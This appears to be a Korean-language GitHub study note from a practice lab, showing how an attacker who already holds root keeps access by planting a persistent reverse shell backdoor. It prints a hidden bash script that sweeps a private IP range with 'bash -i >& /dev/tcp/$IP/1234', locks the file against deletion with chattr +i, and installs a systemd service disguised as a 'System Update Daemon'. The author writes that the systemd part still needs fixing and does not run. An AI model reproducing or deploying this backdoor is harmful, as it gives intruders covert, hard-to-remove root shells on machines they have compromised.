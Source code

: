 # Basic Reverse Shell Backdoor    
### Reverse Shell Backdoor

- 공격자랑 연결이 끊긴 뒤에도, 대상 서버가 공격자에게 쉘을 다시 연결할 수 있게 하는 구조이다.
- 백도어란 시스템 내부에 비정상적인 접근 경로를 몰래 심어놓은 것을 말한다.
<br>

**백도어 작성 (시나리오 1)**    
1. 대상 서버의 RCE 취약점을 얻었다.
2. 권한 상승 취약점을 이용해 kali1 사용자의 쉘을 획득해냈다. 
3. 권한 상승 취약점을 이용하여 root 권한을 획득해냈다.
4. 재접속 가능한 경로를 만들어두는 것을 목표로 한다. (리버스 쉘 백도어 설치)  


취약점을 통해 연결된 쉘은 root가 아니라 kali1 사용자라고 가정한다.    

<br>

<img src="https://github.com/user-attachments/assets/72f331c4-8995-49e4-8a88-58cdb0a76b20" width=650>

이렇게 권한을 가지고 있는 상태라면   
다음 접근 때도 root 계정으로 접근하고 싶을 것이다.  

그러기 위해서 root 권한으로 만든 백도어를 실행시켜 root 권한 쉘을 받을 것이다.   

임의의 경로인 `/usr/local/bin` 아래에 `/.backdoor`라는 숨김 폴더를 하나 만들어두고,   
`/.backdoor/.reverse-root.sh` 파일에 공격자의 ip 주소와 특정 포트로 패킷을 보내는 코드를 적을 것이다. 그리고 이 파일에는 root 권한만을 부여해준다.   

근데 고려해야하는 것이,  `/usr/local/bin/.backdoor/.reverse-root.sh`는 자동 실행이 되지 않으므로, root 권한을 얻기 위해 root 권한을 얻어야하는 일이 발생한다.   

따라서 systemd를 이용해서 자동 실행을 시켜주는 코드도 작성해준다.   
<br>

**reverse-root.sh 코드 작성**  
```bash
nano /usr/local/bin/.backdoor/.reverse-root.sh
```

```bash
#!/bin/bash

# 공격자 IP 대역: 172.29.176.1 ~ 172.29.191.254
# 리스너 포트: 1234

for i in {176..191}; do
  for j in {1..254}; do
    IP="172.29.$i.$j"
    timeout 0.1 bash -c "bash -i >& /dev/tcp/$IP/1234 0>&1" 2>/dev/null
  done
done
```

```bash

chmod 700 /usr/local/bin/.backdoor
chmod 700 /usr/local/bin/.backdoor/.reverse-root.sh
chattr +i /usr/local/bin/.backdoor/.reverse-root.sh
```

우선 공격자 IP는 고정이 아니니까 (실습 환경 고려)  
해당 대역폭에서 특정 포트를 빠르게 순찰하도록 했다.  

시간이 오래 걸리고 반복이 되지 않는다는 단점이 있지만   
천천히 고쳐나가면서 적어보겠다.  

700으로 root 권한과 `chattr +i` 로 삭제를 못하게 만들었다.  

**systemd로 자동 실행**

```bash
nano /etc/systemd/system/.sys-update.service
```

```bash
[Unit]
Description=System Update Daemon
After=network.target

[Service]
ExecStart=/usr/local/bin/.backdoor/.reverse-root.sh
Restart=always
Type=simple

[Install]
WantedBy=multi-user.target
```

```bash
systemctl daemon-reload
systemctl enable .sys-update.service
```

systemd 수정필요  
실행 X
